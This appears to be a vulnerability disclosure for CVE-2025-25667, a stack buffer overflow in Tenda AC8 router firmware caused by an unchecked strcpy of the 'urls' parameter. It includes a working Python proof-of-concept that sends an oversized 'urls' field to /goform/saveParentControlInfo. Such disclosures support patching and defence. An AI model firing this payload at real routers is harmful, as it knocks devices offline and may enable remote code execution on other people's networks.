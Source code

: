 # CVE-2025-25667

Tenda AC8 V16.03.34.06  was discovered to contain a stack overflow via the urls parameter in the function get_parentControl_list_Info.

## Overview

- Firmware download website: https://www.tenda.com.cn/material/show/103518

## Affected version

AC8v4 V16.03.34.06

## Vulnerability details

In function `get_parentControl_list_Info` line 34, it reads in a user-provided parameter `urls`, and the variable is passed to the function `strcpy` in line 52 without any length check, which may lead to overflow of the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a **denial of service** attack or **remote code execution**.

## POC

```python
import requests

ip = '192.168.2.1'
headers = {
    'Host': ip,
    'Accept': '*/*',
    'X-Requested-With': 'XMLHttpRequest',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8',
    'Connection': 'close',
}

urls = "w" * 1000
data = {
    'deviceId': '10:11:11:11:11:16',
    'deviceName': 'deviceNAME6',
    'enable': '1',
    'time': '19:00-20:00',
    'url_enable': '1',
    'urls': urls,
    'day': '1,1,1,1,1,1,1',
    'limit_type': '0',
}

response = requests.post(
   f'http://{ip}/goform/saveParentControlInfo',
    headers=headers,
    data=data,
    verify=False,
)
```

![img](https://s2.loli.net/2025/02/15/TXJKBCl4tW6Siky.png)